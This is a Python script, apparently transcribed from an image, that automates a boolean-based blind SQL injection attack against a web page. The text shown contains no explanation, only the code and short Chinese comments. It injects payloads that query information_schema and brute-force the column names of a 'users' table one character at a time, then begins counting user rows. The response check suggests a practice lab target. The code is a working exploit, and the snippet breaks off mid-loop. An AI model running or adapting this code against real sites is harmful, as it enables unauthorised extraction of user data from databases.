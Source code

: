 ```python
# 查字段个数

columns_num = 0
while True:
    # 11111
    
    param = "1' and (select count(*) from information_schema.columns where table_name='users')=" + str(columns_num) + " #"
    response = request.urlopen(url + parse.quote(param)).read().decode()

    if re.search("You are in", response):
        print("columns:" + str(columns_num))
        break
    else:
        columns_num += 1


# 查每个字段的长度

def co_length(num):
    columns_length = 0
    while True:
        param = "1' and length(substr((select column_name from information_schema.columns where table_name='users' limit " + str(num) + ",1),1))=" + str(columns_length) + " #"
        response = request.urlopen(url + parse.quote(param)).read().decode()

        if re.search("You are in", response):
            # print(columns_length)
            
            return columns_length
        else:
            columns_length += 1


# 查每个字段的值

for n in range(columns_num):
    columns_name = ""
    for l in range(co_length(n)):  # 表的长度
        
        for a in range(0, 128):  # 爆破表
            
            param = "1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit " + str(n) + ",1)," + str(l + 1) + ",1)) =" + str(a) + " # "
            response = request.urlopen(url + parse.quote(param)).read().decode()
            if re.search("You are in", response):
                columns_name += chr(a)
                break
    print("[*]:" + columns_name)


# 下载数据

# 查 username


num = 0
while True:
    param = "1' and (select count(*) from users )= " + str(num) + "#"
    response = request.urlopen(url + parse.quote(param)).read().decode()

    if re.search("You are in", response):
        print("num:" + str(num))
```